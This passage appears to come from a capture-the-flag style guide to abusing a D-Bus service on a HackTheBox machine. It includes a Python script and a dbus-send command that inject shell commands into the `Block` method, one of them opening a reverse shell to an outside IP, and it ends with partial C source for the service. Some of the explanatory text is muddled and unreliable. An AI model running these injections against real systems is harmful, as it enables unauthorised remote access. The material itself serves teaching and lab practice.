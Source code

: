 Also, in line 57 you can find that **the only method registered** for this D-Bus communication is called `Block`(_**Thats why in the following section the payloads are going to be sent to the service object `htb.oouch.Block`, the interface `/htb/oouch/Block` and the method name `Block`**_):

```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```

#### Python

The following python code will send the payload to the D-Bus connection to the `Block` method via `block_iface.Block(runme)` (_note that it was extracted from the previous chunk of code_):

```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```

#### busctl and dbus-send

```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```

- `dbus-send` is a tool used to send message to “Message Bus”
- Message Bus – A software used by systems to make communications between applications easily. It’s related to Message Queue (messages are ordered in sequence) but in Message Bus the messages are sending in a subscription model and also very quick.
- “-system” tag is used to mention that it is a system message, not a session message (by default).
- “–print-reply” tag is used to print our message appropriately and receives any replies in a human-readable format.
- “–dest=Dbus-Interface-Block” The address of the Dbus interface.
- “–string:” – Type of message we like to send to the interface. There are several formats of sending messages like double, bytes, booleans, int, objpath. Out of this, the “object path” is useful when we want to send a path of a file to the Dbus interface. We can use a special file (FIFO) in this case to pass a command to interface in the name of a file. “string:;” – This is to call the object path again where we place of FIFO reverse shell file/command.

_Note that in `htb.oouch.Block.Block`, the first part (`htb.oouch.Block`) references the service object and the last part (`.Block`) references the method name._

### C code

```c:d-bus_server.c
//sudo apt install pkgconf
//sudo apt install libsystemd-dev
//gcc d-bus_server.c -o dbus_server `pkg-config --cflags --libs libsystemd`

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <systemd/sd-bus.h>

static int method_block(sd_bus_message *m, void *userdata, sd_bus_error *ret_error) {
        char* host = NULL;
        int r;

        /* Read the parameters */
        r = sd_bus_message_read(m, "s", &host);
        if (r < 0) {
```